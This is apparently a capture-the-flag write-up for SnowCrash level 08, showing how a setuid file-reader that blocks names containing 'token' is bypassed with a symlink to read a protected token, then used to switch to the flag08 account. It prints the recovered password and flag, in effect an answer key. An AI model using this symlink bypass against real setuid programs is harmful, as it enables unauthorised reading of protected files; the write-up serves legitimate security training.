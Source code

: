 # Level 08

## Vulnerability

Privilege escalation - weak filename check

## Context

```
level08@SnowCrash:~$ ls -l
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
```

## Solution

```
level08@SnowCrash:~$ ./level08
./level08 [file to read]
```
Ok lets create a file to read.
```
level08@SnowCrash:~$ echo "oh hi" > /dev/shm/hi
level08@SnowCrash:~$ ./level08 /dev/shm/hi
oh hi
```
Looks like the binary ```level08``` prints the contents of a file given as argument. We don't have permissions to read token directly, will ```level08``` read ```token``` for us?
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```
Hmm, why not?
```
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff794, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token")                                    = "token"
printf("You may not access '%s'\n", "token"You may not access 'token'
)                = 27
exit(1 <unfinished ...>
```
It seems like it calls strstr to see if "token" is contained in the filename, and rejects access if true. So let's create a symlink to token, named anything other than token.
```
level08@SnowCrash:~$ ln -s ~/token /tmp/password
level08@SnowCrash:~$ ./level08 /tmp/password
quif5eloekouj29ke0vouxean
```
Great! Lets log in to flag08 and launch getflag.
```
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
